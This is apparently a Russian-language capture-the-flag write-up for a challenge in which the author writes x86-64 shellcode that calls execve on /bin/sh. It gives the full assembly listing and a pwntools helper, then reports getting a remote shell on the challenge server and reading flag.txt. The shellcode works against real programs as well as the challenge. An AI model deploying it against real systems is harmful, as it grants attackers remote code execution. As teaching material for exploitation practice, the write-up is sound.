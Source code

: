Забиваем на ридми, он для детей, задача ясна: написать шеллкод. Пошли писать.

Чтобы получить RCE, надо вызвать /bin/sh на удаленном сервере. Делается это с помощью call execve. Зайдем на [сайтик](https://filippo.io/linux-syscall-table/) и посмотрим, под каким номером находится execve. Стыдно не знать, что это номер 59. Дальше нужно разобраться с тем, как вызывать syscall. А он просто делает колл того, что находится в регистре `rax`. Теперь на том же сайтике посмотрим, как правильно вызывать execve. 

![image](/resourses/pwn1.png)

Видим, что в rdi надо положить указатель на строку с именем файла, а в rsi и в rdx можно положить нули, там дурость какая то. 

Погнали писать. Кладем в rax 59: `mov rax, 59`. В rsi и в rdx кладем 0: `mov rsi, 0` `mov rdx, 0`. А вот с указателем на строку немного сложнее. Сделать это можно через стек. Для начала запакуем строку /bin/sh\x00 в число (обратите внимание на 0 байт в конце строки. Он нужен, чтобы указатель на строку понимал, когда строка заканчивается). Ах как хорошо, что это ровно 8 байт и не надо париться. Заходим в питон:

```python
from pwn import *

print(u64(b'/bin/sh\x00'))
```
Получаем число 29400045130965551. Его кладем в какой нибудь левый регистр, например rcx: `mov rcx, 29400045130965551`. Дальше кладем его на стек: `push rcx`. А дальше кладем в регистр rdi, который должен иметь указатель на строку, указатель на стек. Он всегда расположен в регистре rsp: `mov rdi, rsp`. Теперь можно вызывать syscall. Полный код ниже:

```asm
[section .text]

global _start

_start:
	mov rax, 59
	mov rsi, 0
	mov rdx, 0
	mov rcx, 29400045130965551
	push rcx
	mov rdi, rsp
	syscall
```

Компилируем его с помощью скрипта, который нам любезно положили в архив, выполняем e.py и получаем RCE. Пишем `ls`, видим, что там есть flag.txt. Пишем `cat flag.txt` и получаем флаг.

